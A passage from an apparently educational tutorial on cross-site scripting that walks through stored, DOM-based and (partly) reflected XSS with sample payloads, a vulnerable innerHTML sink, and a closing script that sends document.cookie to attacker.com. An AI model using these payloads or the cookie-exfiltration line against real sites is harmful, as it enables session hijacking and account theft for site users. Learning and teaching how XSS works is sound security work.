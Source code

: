 * **Victim clicks:** When the victim visits the link, the payload runs in their browser.
    

---

### 2\. Stored XSS

Stored XSS (a.k.a. persistent XSS) occurs when malicious input is permanently stored on the server (e.g., in a comment or profile) and then served to other users.

#### Step-by-Step:

* **Inject the script:** Post a comment or update a profile with a payload.
    
    ```html
    <script>alert('Stored XSS')</script>
    ```
    
* **Server stores it:** The content is saved in the database.
    
* **Script is displayed to all viewers:** Every user who visits the infected page executes the script.
    

---

### 3\. DOM-Based XSS

DOM-Based XSS exploits vulnerabilities in JavaScript on the client-side, without needing server interaction.

#### Step-by-Step:

* **Identify vulnerable functions:** Look for usage of `innerHTML`, `document.write`, or similar DOM manipulators.
    
    ```js
    document.getElementById("result").innerHTML = location.hash.substring(1);
    ```
    
* **Insert payload in URL fragment:**
    
    ```plaintext
    https://victim.com/page#<script>alert('DOM XSS')</script>
    ```
    
* **Script executes in the client browser.**
    

---

### 4\. Advanced Exploits: Stealing Session Cookies

With XSS, attackers can exfiltrate session cookies to hijack user sessions.

#### Example:

```js
<script>
fetch("http://attacker.com/steal?c=" + document.cookie);
</script>
```
